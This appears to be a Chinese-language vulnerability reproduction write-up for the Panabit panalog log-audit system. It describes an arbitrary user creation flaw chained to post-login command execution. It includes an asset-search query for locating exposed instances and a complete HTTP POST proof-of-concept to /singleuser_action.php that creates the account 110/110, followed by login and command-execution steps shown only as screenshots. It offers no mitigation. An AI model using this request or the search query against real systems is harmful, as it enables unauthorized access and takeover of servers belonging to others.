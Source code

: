 # panabit日志审计系统任意用户创建漏洞和后台命令执行

# 一、漏洞简介
panalog为北京派网软件有限公司，一款流量分析，日志分析管理的一款软件。存在任意用户创建漏洞和后台命令执行漏洞，可先通过任意用户创建，然后进行后台命令执行，获取服务器权限。

# 二、影响版本
+ Panabit panalog

# 三、资产测绘
+ hunter`app.name="Panabit 日志系统"`
+ 特征

![1699191878681-4fe56d76-6ee5-4a90-af37-1cf8a983f57f.png](./img/R_hiEBQ2rdg129pi/1699191878681-4fe56d76-6ee5-4a90-af37-1cf8a983f57f-738731.png)

# 四、漏洞复现
访问连接出现如下页面表示可能存在漏洞

```plain
/singleuser_action.php
```

![1699192303959-b1514c8f-87a3-43de-bcb8-8eaf81585fe8.png](./img/R_hiEBQ2rdg129pi/1699192303959-b1514c8f-87a3-43de-bcb8-8eaf81585fe8-569687.png)

通过POC添加用户

```plain
POST /singleuser_action.php HTTP/1.1
Host: xx.xx.xx.xx
Cookie: PHPSESSID=4dkc7q5hu7lkdlsfm5a0tcirn6
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 578


{ "syncInfo": { "user": { "userId": "110", "userName": "110", "employeeId": "110", "departmentId": "110", "departmentName": "110", "coporationId": "110", "corporationName": "110", "userSex": "1",  "userDuty": "110", "userBirthday": "110", "userPost": "110", "userPostCode": "110", "userAlias": "110", "userRank": "110", "userPhone": "110", "userHomeAddress": "110", "userMobilePhone": "110", "userMailAddress": "110", "userMSN": "110", "userNt": "110", "userCA": "110", "userPwd": "110", "userClass": "110", "parentId": "110", "bxlx": "110" },"operationType": "ADD_USER" } }
```

![1699192359593-ce854b7d-6a70-4afb-9b8d-8ec24a96b220.png](./img/R_hiEBQ2rdg129pi/1699192359593-ce854b7d-6a70-4afb-9b8d-8ec24a96b220-349214.png)

使用添加的账户`110/110`

![1699192394802-63091860-1fae-479d-bece-9557ffa15489.png](./img/R_hiEBQ2rdg129pi/1699192394802-63091860-1fae-479d-bece-9557ffa15489-628593.png)

执行命令

![1699192639614-2727f7d1-d406-4477-a921-e6d67ca480f9.png](./img/R_hiEBQ2rdg129pi/1699192639614-2727f7d1-d406-4477-a921-e6d67ca480f9-644917.png)



> 更新: 2024-02-29 23:57:14  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lr43i377pvqttwpn>